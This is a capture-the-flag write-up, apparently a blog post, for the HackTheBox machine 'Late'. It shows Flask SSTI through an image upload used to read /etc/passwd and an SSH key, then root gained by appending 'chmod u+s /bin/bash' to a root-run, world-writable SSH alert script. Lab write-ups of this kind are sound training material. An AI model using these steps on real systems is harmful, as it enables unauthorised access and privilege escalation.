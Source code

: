 ```yaml
---
layout: post
title: "HTB: Late"
author: Andrew Cherney
date: 2023-01-12 20:48:24
icon: ""
tags: htb easy-box
post_description: "Late was a box with practically two parts. The first was to identify the image upload function on the http site was vulnerable to SSTI and crafting an image to serve as the payload. The second was to find an SSH login alert bash script that was run as root and writable by everyone."
---
```


<h1>Summary</h1>

Late is an easy difficulty box with practically two parts. The first was to identify the image upload function on the http site was vulnerable to SSTI and crafting an image to serve as the payload. The second was to find an SSH login alert bash script that was run as root and writable by everyone. 

<h1>Enumeration</h1>

This box I decided to try <code>rustscan</code> to scan for open ports and services. It's effectively a wrapper around <code>nmap</code> which allows for additional functionality and faster scanning, but in my case I use it for the latter of those reasons. 

<h2>rustscan</h2>

```bash
rustscan 10.10.11.156 | tee results.scan
```

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 02:5e:29:0e:a3:af:4e:72:9d:a4:fe:0d:cb:5d:83:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDSqIcUZeMzG+QAl/4uYzsU98davIPkVzDmzTPOmMONUsYleBjGVwAyLHsZHhgsJqM9lmxXkb8hT4ZTTa1azg4JsLwX1xKa8m+RnXwJ1DibEMNAO0vzaEBMsOOhFRwm5IcoDR0gOONsYYfz18pafMpaocitjw8mURa+YeY21EpF6cKSOCjkVWa6yB+GT8mOcTZOZStRXYosrOqz5w7hG+20RY8OYwBXJ2Ags6HJz3sqsyT80FMoHeGAUmu+LUJnyrW5foozKgxXhyOPszMvqosbrcrsG3ic3yhjSYKWCJO/Oxc76WUdUAlcGxbtD9U5jL+LY2ZCOPva1+/kznK8FhQN
|   256 41:e1:fe:03:a5:c7:97:c4:d5:16:77:f3:41:0c:e9:fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBMen7Mjv8J63UQbISZ3Yju+a8dgXFwVLgKeTxgRc7W+k33OZaOqWBctKs8hIbaOehzMRsU7ugP6zIvYb25Kylw=
|   256 28:39:46:98:17:1e:46:1a:1e:a1:ab:3b:9a:57:70:48 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIGrWbMoMH87K09rDrkUvPUJ/ZpNAwHiUB66a/FKHWrj
80/tcp open  http    syn-ack ttl 62 nginx 1.14.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 1575FDF0E164C3DB0739CF05D9315BDF
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Late - Best online image tools
```

<h2>Port 80 - Nginx</h2>

![late.htb](/img/late/late_htb_site.png)

![late.htb FAQ](/img/late/late_htb_FAQ.png)

Taking a look around we can quickly find in the FAQ a link to the online photo editor. That specific link directs to <code>images.late.htb</code>. Now I can add the domain and subdomain to my <code>/etc/hosts</code> file:

```
10.10.11.156 late.htb images.late.htb
```

![images.late.htb](/img/late/late_htb_images.png)

After adding that subdomain to my hosts file, we are presented with a page to turn an uploaded image into text. There is one major indicator of our next step and it lies within the header at the top: Flask. 

<h1>Foothold</h1>

Before we get ahead of ourselves we could test this pages functionality. I throw a cat picture at the text converter as a sanity check:

![cat upload test](/img/late/late_htb_test_upload.png)

That is exactly as expected, now let's create a simple image with text to determine if this is vulnerable to SSTI and if it properly handles regular text. 

![SSTI test payload](/img/late/late_htb_test_payload.png)

![SSTI test response](/img/late/late_htb_test_payload_response.png)

Great, my suspicions were confirmed and now we can move onto the next part. 

<h2>Flask and SSTI</h2>

Now in short, Flask is a python based web framework which is notoriously vulnerable to one type of attack: Server Side Template Injection. The framework integrates the use of templates, which allow for importing data from various pages and parts of a site. For example this site itself uses layout pages that contain \{\{ content \}\} to import the referencing page's information. Another functionality of those templates is the ability to run code and commands with the language natively used within the framework. 

For the test payload I used \{\{7*7\}\} which if the application is SSTI vulnerable will calculate the result, which is the 49 we received in the response. 

There is one slight problem however when it comes to SSTI on Flask, and that is navigating python objects and inheritance trees. In order to run commands or code through templates we need to crawl through the Python environment to find classes useful to us. In some cases it can be as simple as throwing a pre-generated cheatsheet payload template at Flask, and in others is can look something like \{\{‘’.\_\_class\_\_.\_\_mro\_\_[1].\_\_subclasses\_\_()[284:]\}\} and the only way to find out is by enumerating the classes used in the application. 

Get it? Good, because all of that paragraph above is worthless since the [cheatsheet templates below](https://github.com/Jieyab89/Jinja2-python-or-flask-SSTI-vulnerability-payload-) I tested against it worked ... 

![SSTI /etc/passwd read](/img/late/carbon_(61).png)
![SSTI ssh key read](/img/late/ssh_payload.png)

When you give the upload an SSTI payload it returns the results of the payload. In the second payload's case that would be the ssh key for the account running the site. A soft blessing ends up working in my favor, as the test payload to read <code>/etc/passwd</code> shows me the potential names for accounts to ssh into, the winner of those being svc_acc.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Late]
└──╼ $ssh svc_acc@10.10.11.156 -i id_rsa
svc_acc@late:~$ id
uid=1000(svc_acc) gid=1000(svc_acc) groups=1000(svc_acc)
```

<h1>Root</h1>

Since this is an easy box it's safe to assume linpeas will likely churn out my next step, and would you look at that a bash script in <code>/usr/local/sbin</code>

![linpeas scan](/img/late/late_htb_linpeas.png)

```
#!/bin/bash

RECIPIENT="root@late.htb"
SUBJECT="Email from Server Login: SSH Alert"

BODY="
A SSH login was detected.

        User:        $PAM_USER
        User IP Host: $PAM_RHOST
        Service:     $PAM_SERVICE
        TTY:         $PAM_TTY
        Date:        `date`
        Server:      `uname -a`
"

if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi
```

The script is sending an email to the presumptive root email for every SSH login. Now I have two options, I can scour the machine to determine who is running this script, or I can append <code>whoami</code> to the script and log back in.

```bash
svc_acc@late:~$ echo 'whoami | tee /tmp/user' >> /usr/local/sbin/ssh-alert.sh
svc_acc@late:~$ exit
logout
Connection to 10.10.11.156 closed.
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Late]
└──╼ $ssh svc_acc@10.10.11.156 -i id_rsa 
svc_acc@late:~$ cat /tmp/user
root
```

Well if root is running this script our priv esc is as simple as modifying bin bash to be an SUID, making it run as the owner root. 

```bash
svc_acc@late:~$ echo 'chmod u+s /bin/bash' >> /usr/local/sbin/ssh-alert.sh 
svc_acc@late:~$ exit
logout
Connection to 10.10.11.156 closed.
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Retired/Late]
└──╼ $ssh svc_acc@10.10.11.156 -i id_rsa 
-bash-4.4$ bash -p
bash-4.4# whoami
root
```

And with that I can read the root.txt flag in the root directory and pwn the box.
